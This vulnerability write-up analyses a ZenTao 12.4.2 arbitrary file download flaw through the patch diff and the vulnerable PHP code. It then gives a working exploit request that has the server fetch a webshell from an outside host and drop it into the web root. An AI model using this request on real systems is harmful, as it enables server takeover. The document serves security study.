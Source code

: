 # Zen Tao 12.4.2 Vulnerability of uploading any file in the background CNVD-C-2020-121325

## Vulnerability Description

Baidu Cloud Security Team monitored that Chandao officially issued a risk notice for file upload vulnerability, which is numbered CNVD-C-2020-121325, and the vulnerability affects Chandao <=12.4.2 version. 

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zen Tao <= Version 12.4.2</span>

## Environment construction

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-1-20220313232509623.png)



Call the interface to query version information



```plain
  https://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-14.png)



## Vulnerability reappears

- ✅Vulnerability triggering requires background permissions



View modified code snippets based on vulnerability description



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-2.png)



`Before modification`



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(preg_match('/^https?\:\/\//', $decodeLink)) return false;

    return parent::downloadZipPackage($version, $link);
}
```



`Modified`



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(!preg_match('/^https?\:\/\//', $decodeLink)) return false;

    $file      = basename($link);
    $extension = substr($file, strrpos($file, '.') + 1);
    if(strpos(",{$this->config->file->allowed},", ",{$extension},") === false) return false;

    return parent::downloadZipPackage($version, $link);
}
```



The parameters passed here are the version and link address, and then base64 decode them to determine whether they are `http` or `https` protocols. The regular filtering here is not complete, so you can bypass the download of malicious files.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-4.png)



You can capitalize `http` or request `FTP` to bypass the regular



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-6.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-5.png)



Follow up on the `parent::downloadZipPackage` method, and then go to the `zentao\module\client\model.php` file



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-3.png)



```php
public function downloadZipPackage($version, $link)
    {
        ignore_user_abort(true);
        set_time_limit(0);
        if(empty($version) || empty($link)) return false;
        $dir  = "data/client/" . $version . '/';
        $link = helper::safe64Decode($link);
        $file = basename($link);
        if(!is_dir($this->app->wwwRoot . $dir))
        {
            mkdir($this->app->wwwRoot . $dir, 0755, true);
        }
        if(!is_dir($this->app->wwwRoot . $dir)) return false;
        if(file_exists($this->app->wwwRoot . $dir . $file))
        {
            return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
        }
        ob_clean();
        ob_end_flush();

        $local  = fopen($this->app->wwwRoot . $dir . $file, 'w');
        $remote = fopen($link, 'rb');
        if($remote === false) return false;
        while(!feof($remote))
        {
            $buffer = fread($remote, 4096);
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```



You can simply see here to get the file name passed in link, open the file through `fopen`, and write it to the Zen directory `www/data/client/version`



Check if there is any place to call this method



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-7.png)



Found the `download` method called this vulnerability point, so we have two ways to download malicious files



```plain
https://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
https://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```



First, upload a malicious file, either FTP or HTTP



For example, the file URL I uploaded is [`https://peiqi.tech/SHELL.php`](https://peiqi.tech/SHELL.php)



```plain
https://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



The request address is



```plain
https://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-8.png)



The directory address for download is `zentaopms\www\data\client\1`


 

The directory is version name



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-9.png)



Successfully uploaded webshell



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-10.png)



## 